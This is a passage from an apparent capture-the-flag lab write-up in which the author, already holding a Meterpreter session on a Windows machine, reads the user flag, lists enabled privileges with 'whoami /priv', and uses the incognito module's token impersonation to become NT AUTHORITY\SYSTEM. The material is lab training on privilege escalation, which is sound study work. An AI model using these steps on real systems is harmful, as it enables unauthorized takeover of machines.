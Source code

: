 Now that we're on the box, lets grab the user flag for our question.

`cd /users/bruce/desktop`

`cat user.txt`

Following the guide, they're telling us to use token impersonation. Lets check that. In meterpreter, we drop into the shell with `shell` and run the provided command.

```
C:\users\bruce\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

Debug, Impersonate, and Create Global are all enabled for the Bruce user.

Now, we can load the incognito module like the room suggests.
First, exit the shell session.
`exit`
Then, 
`load incognito`

Using impersonate, we can become NT AUTHORITY\SYSTEM
```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```
